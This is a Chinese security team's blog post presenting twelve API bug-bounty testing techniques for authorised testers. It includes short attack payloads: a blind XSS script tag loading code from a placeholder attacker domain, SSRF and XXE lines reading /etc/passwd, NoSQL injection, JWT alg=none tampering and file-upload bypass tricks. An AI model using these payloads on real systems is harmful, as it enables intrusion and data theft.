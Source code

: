 #  这12个API漏洞赏金技巧，你一定要在目标上试试！   
原创 千里  东方隐侠安全团队   2025-06-01 15:01  
  
网安知识分享  
  
DFYX’s KNOWLEDGE & NEWS  
  
  科普知识 一起成长    
  
东方隐侠·悟剑堂  
  
引言  
  
  
数字化时代，  
API（应用程序编程接口）已成为企业数据交互的核心枢纽。  
  
然而，  
API暴露的攻击面正日益成为黑客攻击的主要目标。漏洞赏金计划（Bug Bounty Program）作为企业与安全研究人员之间的桥梁，为识别API安全漏洞提供了有效途径。  
  
本文结合实战经验，讲解  
12种针对API的渗透思路，涵盖技术原理、操作流程及工具应用，旨在帮助少侠们提升漏洞挖掘效率，为企业构建API安全防护体系提供参考。  
  
十二种API测试技巧深度解析  
  
  
### 一、信息收集：扩大攻击面的 “侦察兵”  
  
1. 遗留 API 端点探测：旧版本的 “致命伤”  
  
许多企业升级 API 时会保留旧版本端点（如/api/v1），但未删除权限校验。实战操作：  
- 将请求路径中的/api/v2替换为/api/v1或直接删除版本号（/api）；  
  
- 对子域名如api-v2.example.com，尝试访问api-v1.example.com或根域名api.example.com。  
  
工具推荐：Dirbuster 扫描隐藏目录，快速定位存活端点。  
  
2. 端点发现：从公开信息中 “淘宝”  
- GitHub 侦察：用site:github.com "api.example.com"搜索硬编码的 API 密钥或配置文件；  
  
- JS 文件分析：通过浏览器开发者工具提取 JS 文件，解析隐藏的 API 路径（如fetch('/api/v3/user')）；  
  
- Swagger 文档枚举：直接访问/swagger.json或/api-docs，获取接口定义和参数说明。  
  
二、漏洞利用：直击 API 薄弱环节  
  
3. 盲打 XSS：隐藏在日志中的 “暗箭”  
  
原理：恶意脚本注入请求头（如 Referrer、User-Agent），存储在服务器日志中，待管理员查看时触发。  
  
Burp 实操：  
- 在 “Match and Replace” 规则中设置正则匹配，自动替换请求头为盲打 Payload（如<script src="https://your-domain.com/xss.js"></script>）；  
  
- 配置 Burp Collaborator 监听回调，捕获漏洞响应。  
  
4. SSRF：让服务器 “替你打工”  
  
场景：当 API 接收 URL 参数（如image_url）时，替换为你的 VPS 地址（如http://your-vps.com/canary），探测内网服务或窃取敏感数据。  
  
进阶操作：尝试file:///etc/passwd读取本地文件，或gopher://127.0.0.1:6379攻击内网 Redis。  
  
5. CSRF：冒用身份的 “钓鱼术”  
  
绕过技巧：  
- 删除请求中的 CSRF 令牌，或替换为同长度随机字符串；  
  
- 修改请求头Content-Type为application/x-www-form-urlencoded，绕过部分框架校验；  
  
- 将PUT/DELETE请求改为POST，突破方法限制。  
  
6. JWT 令牌篡改：权限提升的 “钥匙”  
  
步骤：  
- 用jwt.io解析令牌，检查alg字段是否为none或弱加密算法（如 HS256）；  
  
- 若alg=none，直接删除签名，修改payload中的用户角色（如"role": "admin"）；  
  
- 使用篡改后的令牌访问高权限接口（如/api/admin/settings）。  
  
三、访问控制与协议漏洞：突破防护的 “非常规手段”  
  
7. 绕过 401/403：特殊字符的 “魔法”  
- 嵌套路径：若/admin返回 403，尝试/admin/system-logs或/admin/..；  
  
- 字符注入：在 URL 中添加空格（/admin%20）、空字节（/admin%00）或 CRLF（/admin%0D%0A）绕过过滤；  
  
- IP 欺骗：通过X-Forwarded-For: 127.0.0.1伪造可信来源。  
  
8. CORS 配置错误：跨域窃取数据的 “通道”  
  
检测方法：  
- 查看响应头是否包含Access-Control-Allow-Origin: *且Access-Control-Allow-Credentials: true；  
  
- 构造 HTML 页面，用fetch()发起跨域请求，若返回 API 密钥等敏感数据，则存在漏洞。  
  
9. 竞争条件：并发请求的 “时间差攻击”  
  
目标场景：文件上传、订单支付、权限审批等涉及状态变更的操作。  
  
工具：Burp Intruder 设置多线程并发请求，监控是否出现订单重复创建或余额异常变动。  
  
  
四、协议与文件漏洞：冷门但致命的 “杀招”  
  
10. XXE 注入：从 JSON 到 XML 的 “格式陷阱”  
  
操作：将请求头Content-Type从application/json改为application/xml，注入外部实体：  
  
```
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
```  
  
  
若响应包含文件内容，证明存在漏洞。  
  
11. NoSQL 注入：文档型数据库的 “语法漏洞”  
  
Payload 示例：  
  
```
{ "username": { "$gt": "" } } // 匹配所有非空用户名  
```  
```
{ "username": { "$where": "this.password.indexOf('a') !== -1" } } // 布尔盲注检测密码是否含“a”
```  
  
  
12. 文件上传绕过：扩展名与魔法字节的 “伪装术”  
- 扩展名欺骗：用.phtml、.phar替代.php，或添加空字节（shell.php%00.png）；  
  
- 魔法字节攻击：在文件头部写入合法格式头（如 PNG 的89 50 4E 47），同时嵌入 PHP 代码。  
  
  
  
总结  
  
  
本文系统性地阐述了12种API漏洞赏金测试技巧，覆盖从信息收集到漏洞利用的全流程。少侠们在实践中需注意以下要点：  
- 合法合规：始终在漏洞赏金计划允许的范围内进行测试，避免触犯法律。  
  
- 工具链整合：结合Burp Suite、Postman、Python脚本等工具实现自动化测试，提升效率。  
  
- 深度分析：不仅关注漏洞存在性，更要挖掘漏洞的潜在影响（如数据泄露范围、权限提升路径），提高漏洞报告的价值。  
  
- 持续学习：跟踪API安全领域的最新趋势（如GraphQL漏洞、API网关安全），不断更新测试方法论。  
  
随着API架构的复杂化，安全威胁也在持续演进。唯有将技术原理与实战经验相结合，才能在漏洞赏金领域中高效发现关键漏洞，为企业API安全防护提供有力支撑。  
  
  
（完整内容，请查看原文链接，欢迎少侠们关注与注册东方隐侠官方网站“隐侠安全客栈”）  
  
关注东方隐侠安全团队 一起打造网安江湖  
  
        
  东方隐侠安全团队，一支专业的网络安全团队，将持续为您分享红蓝对抗、病毒研究、安全运营、应急响应等网络安全知识，提供一流网络安全服务，敬请关注！  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/icqGYtiaRQqH7zgibKsqKmX3H4AatvwPeXFsrHGpp0RsxLJpzgd0cyiaPH2HDnfv4GMdxf0lkGjAibiaBtFcLmnm2ZkA/640?wx_fmt=png "")  
  
  
  
  
公众号｜东方隐侠安全团队  
  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/icqGYtiaRQqH4laNHWaR5yOd2VbInJbO4h3daHtdT7pcSk7zONRMDyl2cht3U4dbbyiaLmMA5DpBBlTgspa3agKyw/640?wx_fmt=png "")  
  
  
  
  
请添加团队微信号  
｜东方隐侠安全团队  
  
用于拉少侠们进团队交流群  
  
